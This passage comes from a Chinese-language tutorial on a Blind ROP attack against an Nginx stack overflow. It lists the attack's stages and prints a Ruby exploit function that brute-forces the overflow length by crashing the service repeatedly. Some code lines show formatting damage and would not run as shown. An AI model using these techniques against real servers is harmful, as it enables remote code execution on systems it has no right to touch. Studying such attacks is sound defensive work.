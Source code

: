 可以看到，recv之后，已经接收到了畸形字符串，并且拷贝到buffer中，造成了栈溢出，这时候，由于Canary被畸形字符串覆盖，从而导致了stack_chk失败，而下一步，我们就要通过Blind ROP来完成对Nginx的攻击。

**<br>**

**360度无死角浅析Blind ROP Attack**

关于Blind ROP网上有很多介绍，这里，我将结合Exploit来分解每一步的过程，在这之前，我想大概说明一下，关于Blind ROP的使用环境。首先Blind ROP是我们不知道目标环境的情况下使用的，也就是不能直接构造ROP gadget。

目标服务在崩溃后会重新运行

Canary不会重置，没有ASLR

这是因为Blind ROP其实核心部分都是类似于爆破的概念，因此会不断的引起目标服务崩溃，挂起，如果崩溃后不能重新启动，且启动后Canary或者其他地址改变，那么之前的爆破也就无意义了。那么Blind ROP每一步在做什么呢。

爆破Canary

获取Hang addr和PLT

找到BROP gadget

找到strcmp plt和write plt

Dump内存，执行shellcode

Blind ROP由于不知道目标环境，因此，我们就用write(socket,buf,size)的方法，dump出内存，从而获取gadget最后形成一个可用的ROP gadget，后面就是我们常规Attack的方法了，因此，在这之前，才是Blind ROP的核心，下面，我们就从Exploit入手，来分解这个核心过程。

首先，我们发现了一个栈溢出，需要找到这个栈溢出的准确位置，因为我们没有获取目标服务的elf，因此就用探测的方法来获取到溢出的长度，也就是刚刚崩溃的位置。



```
def find_overflow_len()#测试溢出长度，olen是实例变量
ws = 8
olen = ws #长度为8，前面4096已有
while true
stuff = "A" * olen 填充8个字节
r = try_exp_print(olen, stuff)#尝试溢出
break if r == RC_CRASH #崩溃了，就返回
olen += ws #否则尝试再加8字节长度
end
abort("unreliable") if olen == ws 
olen -= ws
while true #判断olen准确溢出长度
stuff = "A" * olen
r = try_exp_print(olen, stuff)
break if r == RC_CRASH
olen += 1
end
olen -= 1
@olen = olen
print("nFound overflow len #`{`olen`}`n")#实例变量赋值，打印长度
end
```

    4096已经定义好了，其实我们也可以从0开始，olen是一个实例变量，标记4096后的崩溃长度。最后可以获取到溢出的长度。
